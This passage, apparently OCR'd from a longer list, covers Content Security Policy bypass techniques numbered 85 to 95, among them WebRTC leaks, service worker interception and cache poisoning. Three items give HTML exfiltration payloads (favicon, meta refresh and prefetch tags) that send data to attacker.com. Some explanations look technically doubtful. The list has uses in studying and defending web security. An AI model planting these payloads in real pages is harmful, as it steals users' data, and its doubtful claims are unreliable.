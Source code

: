 ### 85. CSS Content-Length timing attack
**Bypass:** Load CSS files of different lengths; timing differences leak information
**Explanation:** Response timing can be analyzed to deduce binary data.

### 86. WebRTC IP leak
**Bypass:** Even with CSP, WebRTC can leak real IP addresses
**Explanation:** WebRTC operates outside CSP scope in many cases.

### 87. Favicon exfiltration
**Bypass:** Change favicon to attacker domain: `<link rel="icon" href="https://attacker.com/?data=secrets">`
**Explanation:** Favicon requests send same-origin requests with cookies.

### 88. Form pre-filling with leaked data
**Bypass:** Pre-fill form with stolen data, wait for user to submit
**Explanation:** Combines XSS data gathering with social engineering.

### 89. Meta refresh to attacker domain
**Bypass:** `<meta http-equiv="refresh" content="5; url=https://attacker.com/?data=sensitive">`
**Explanation:** Redirects user with data in URL before CSP enforces.

### 90. Link prefetch attribute
**Bypass:** `<link rel="prefetch" href="https://attacker.com/?data=stolen" />`
**Explanation:** Prefetch makes request that can include sensitive data.

---

## SECTION 8: ADVANCED TECHNIQUES (91-100)

### 91. Service Worker registration bypass
**Bypass:** Register service worker: `/sw.js` intercepts all future requests, modifies CSP
**Explanation:** Service Worker can intercept responses and remove CSP headers.

### 92. Cache poisoning combined with CSP bypass
**Bypass:** Poison CDN cache with malicious version of script at whitelisted domain
**Explanation:** If cache key doesn't include security context, attacker poisons cache.

### 93. HTTP Parameter Pollution (HPP)
**Bypass:** Use multiple values for same parameter; different systems parse differently
**Explanation:** CSP filter sees safe value, application sees malicious value.

### 94. Unicode escaping in CSP directive
**Bypass:** Policy: `script-src 'self' \u0068ttp://attacker.com` - unusual encoding
**Explanation:** CSP parser might normalize Unicode differently than browser.

### 95. Byte-order mark (BOM) bypass
**Bypass:** Prepend BOM to JavaScript file; affects parsing of first bytes
**Explanation:** Different handling of BOM in CSP validation vs execution.
